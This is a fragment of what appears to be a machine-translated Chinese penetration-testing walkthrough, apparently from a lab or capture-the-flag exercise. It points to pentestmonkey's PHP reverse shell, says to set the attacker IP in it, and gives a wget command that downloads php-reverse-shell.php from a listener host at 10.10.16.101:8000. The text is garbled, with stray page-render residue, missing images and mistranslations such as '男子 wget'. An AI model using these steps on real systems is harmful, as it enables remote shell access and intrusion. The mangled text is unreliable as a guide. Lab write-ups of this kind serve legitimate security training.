 ### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/pentestmonkey/php-reverse-shell) ![](img/474bcb5f31857d1ad4935c02515df966.png)

在反向 shell 中更改 IP 地址

![](img/8297e8928c5cff3e05598a42647f4782.png)

设置服务器上传 revershell

```
$wget [http://10.10.16.101:8000/php-reverse-shell.php](http://10.10.16.101:8000/php-reverse-shell.php)
```

![](img/235ff3a4aa6f0569c22ce6a8109539dd.png)

男子 wget
